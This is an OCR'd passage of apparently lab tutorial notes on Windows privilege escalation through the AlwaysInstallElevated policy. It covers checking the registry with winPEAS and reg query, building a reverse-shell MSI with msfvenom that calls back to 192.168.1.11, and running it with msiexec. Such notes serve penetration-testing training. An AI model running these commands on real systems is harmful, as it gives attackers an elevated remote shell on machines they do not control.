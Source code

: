 1.Use winPEAS to see if both registry values are set:
 .\winPEASany.exe quiet windowscreds

2.Alternatively, verify the values manually:
> reg query
HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
/v AlwaysInstallElevated


> reg query
HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
/v AlwaysInstallElevated

3.Create a new reverse shell with msfvenom, this time using the msi format, and save it with the .msi extension:

 msfvenom -p windows/x64/shell_reverse_tcp
LHOST=192.168.1.11 LPORT=53 -f msi -o reverse.msi


4.Copy the reverse.msi across to the Windows VM, start a listener on Kali,
and run the installer to trigger the exploit:


> msiexec /quiet /qn /i C:\PrivEsc\reverse.msi